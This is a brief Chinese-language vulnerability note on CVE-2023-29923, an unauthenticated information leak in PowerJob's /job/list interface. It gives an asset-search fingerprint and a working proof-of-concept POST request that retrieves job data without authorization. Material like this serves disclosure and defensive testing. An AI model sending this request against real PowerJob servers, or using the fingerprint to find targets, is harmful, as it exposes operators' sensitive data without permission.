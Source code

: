 # PowerJob list 信息泄漏漏洞 CVE-2023-29923

## 漏洞描述

PowerJob list接口存在信息泄漏漏洞，攻击者无需通过授权就可以访问授权的接口，获取敏感数据

## 漏洞影响

<a-checkbox checked>PowerJob</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="PowerJob"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682086796259-10d346df-2520-4671-abc7-9590e9676a13.png)

验证POC

```plain
POST /job/list
Content-Type: application/json

{"appId":1,"index":0,"pageSize":10}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682086913135-2a656856-28ff-448b-b549-cf68611b8175.png)